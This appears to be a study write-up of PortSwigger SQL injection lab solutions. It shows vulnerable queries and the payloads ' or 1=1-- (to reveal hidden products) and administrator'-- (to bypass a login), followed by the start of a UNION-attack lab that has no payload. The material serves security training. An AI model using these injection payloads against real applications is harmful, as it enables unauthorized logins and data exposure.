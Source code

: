# SQL injection

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Lifestyle' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

```sql
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```

payload:

```
' or 1=1--
```

# [**_2. Lab: SQL injection vulnerability allowing login bypass_**](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

query:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '12323'
```

payload:

```
administrator'--
```

# [**_1. SQL injection UNION attack, determining the number of columns returned by the query_**](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
